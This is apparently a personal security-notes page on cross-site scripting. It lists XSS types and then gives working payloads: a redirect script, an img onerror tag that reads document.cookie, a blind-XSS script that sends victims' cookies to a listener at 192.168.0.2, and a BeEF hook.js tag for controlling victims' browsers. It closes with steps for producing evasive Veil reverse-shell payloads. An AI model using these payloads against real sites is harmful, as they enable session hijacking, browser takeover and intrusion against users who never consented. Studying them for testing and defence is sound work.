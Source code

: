 ```yaml
---
title: Notes | XSS
author: Zeropio
date: 2021-12-12
categories: [Notes, Vulnerabilities]
tags: [xss]
permalink: /notes/vulnerabilities/xss
---
```



# General

There are three main types of XSS:
| **Type**   | **Description**    |
|--------------- | --------------- |
| *Reflected*   | Occurs when user input is displayed on the page after processing   |
| *Stored*   | Occurs when user input is stored in the back end database and then displayed upon retrieval   |
| *DOM*   | Occurs when user input is directly shown in the browser and is written to an HTML DOM object  |


If we have a form we can try to insert code, like this:
```html
<script> ... </script>
```
If the page execute what are in the form we can make several damage to the page.

There are some examples:
- Redirection. 

```html
<script> window.location="" </script>
```

- Alert for cookie

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

# Blind XSS
We can use XSS to a cookie hijacking. First we need to start an http server, we can do it with python...:
```console
> python -m http.server 80
```
or php...:
```console
> php -S 0.0.0.0:80
```

Then we send others cookie to our http server:
```html
<script>document.write('<img src="http://192.168.0.2:80/xss.png?cookie="+ document.cookie + "')</script>
```

# Tools

## BeEF
We can use **BeEF** to capture traffic with XSS.
In a XSS we send:
```html
<script src="http://192.168.1.1:3000/hook.js"></script>
```

##### for both, reflected and stored

Then in the **BeEF** panel (http://localhost:3000/hook.js) we can registred the IP who open the page.

We can use the **commands** tab to send scripts to a victim.

## Veil Framework
First we need to install [Veil](https://github.com/Veil-Framework/Veil/).
After the installation we need to start Veil.

We can list everything with the command **list**, use the **Evasion** option. Then **list** again to get all the reverse shell payload.
It is recommendable to change the variables to be more *sneaky*.
##### similar use as metasploit
